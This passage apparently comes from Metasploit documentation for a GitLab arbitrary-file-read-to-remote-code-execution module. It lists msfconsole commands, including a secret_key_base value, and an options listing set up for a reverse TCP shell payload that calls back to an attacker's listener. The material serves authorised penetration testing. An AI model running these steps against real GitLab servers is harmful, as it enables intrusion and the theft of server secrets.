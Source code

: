 1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set SECRET_KEY_BASE 301ee96a664dc634b8766368d26b4ef4deb46c593490dc1f39526e0f278f2dfcb9f5c9bb13c74b5377848259a533c9ad137885c01a4387deb799e14589a6fbac`
1. `set LPORT <port>`
1. `set LHOST <ip>`
1. `run`
1. You should get a shell.

## Scenarios

### Arbitrary File Read to RCE

```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name          Current Setting                             Required  Description
   ----          ---------------                             --------  -----------
   DEPTH         15                                          yes       Define the max traversal depth
   PASSWORD      password123                                 yes       The password for the specified username
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                                          yes       The target port (TCP)
   SECRETS_PATH  /opt/gitlab/embedded/service/gitlab-rails/  yes       The path to the secrets.yml file
                 config/secrets.yml
   SECRET_KEY_BASE                                           no        The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present
   SSL           false                                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /users/sign_in                              yes       The path to the vulnerable application
   USERNAME      test@example.com                            yes       The username to authenticate as
   VHOST         gitlab.example.com                          no        The virtual host name to use in requests


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > rerun
```